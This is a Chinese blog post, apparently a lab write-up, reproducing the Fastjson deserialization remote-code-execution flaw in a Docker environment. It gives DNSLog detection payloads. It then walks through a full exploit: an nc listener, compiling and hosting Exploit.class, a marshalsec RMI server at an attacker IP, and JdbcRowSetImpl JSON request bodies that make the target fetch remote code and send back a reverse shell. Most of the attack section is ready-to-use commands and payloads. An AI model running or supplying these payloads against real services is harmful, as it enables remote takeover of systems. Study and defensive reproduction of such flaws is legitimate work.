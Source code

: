 ```yaml
---
title: Fastjson反序列化
top: false
cover: https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fastjson.jpg
categories:
- 渗透测试
tags:
- Fastjson反序列化
- 靶场实验
- 漏洞复现
abbrlink: 21856
date: 2020-11-13 16:45:31
keywords:
summary:
password:
---
```




## 简介

fastjson 是阿里巴巴的开源JSON解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。可以通过反序列化导致远程命令执行。





## 漏洞检测方法

### DNSLog回显

下面有多个请求，分别放到请求数据包部分(可能某个不适用, 多试几个)，通过构造DNS解析来判断是否是Fastjson，Fastjson在解析下面这些Payload时会取解析val的值，从而可以**在dnslog接收到回显**，**以此判断是不是Fastjson**

```json
{"a":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}

{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"xxx.dnslog.cn"}}""}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:"aaa"}
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}]
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:0
```



### 增加key

Java语言中常用的Json处理主要是Fastjson和Jackson，相对而言，Jackson比较严格，强制Key和JavaBean属性对齐，只能少Key不能多Key，所以可以通过增加一个Key看响应包会不会报错来判断。



## 利用复现

这里用的docker环境

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj1.jpg"></img>



1.查看数据包，可以用上面的`漏洞检测`的方法来判断

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj2.jpg"></img>





2.vps用nc监听端口8888

```bash
nc -lvvp 8888
```



EXP地址：https://github.com/CaijiOrz/fastjson-1.2.47-RCE

3.修改exp中反弹shell的服务器地址和为我们的

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj3.jpg"></img>



4.使用javac进行编译，然后会生成一个Exploit.class文件

```bash
javac Exploit.java
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj4.jpg"></img>



5.在Exploit.class的目录下开启python的简单http服务，相当于访问就能下载

```bash
python -m SimpleHTTPServer 8080
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj5.jpg"></img>

6.执行下面的命令开启RMI/LDAP服务

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.43.102:8080/#Exploit" 9999	#8080是前面SimpleHTTPServer的端口

```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj6.jpg"></img>







7.构造exp请求包

```json
# 1.2.47以下版本
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.43.102:9999/Exploit",
        "autoCommit":true
    }
}







# 1.2.24以下版本
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://同上类文件地址:9999/TouchFile",
        "autoCommit":true
    }
}

```



8.构造好的请求包发送如下，注意：Content-type格式要`json`，并且是`post`请求

```bash
Content-type: application/json
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj7.jpg"></img>



9.接收到反弹回来的shell

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fj8.jpg"></img>





参考：https://www.naraku.cn/posts/86.html

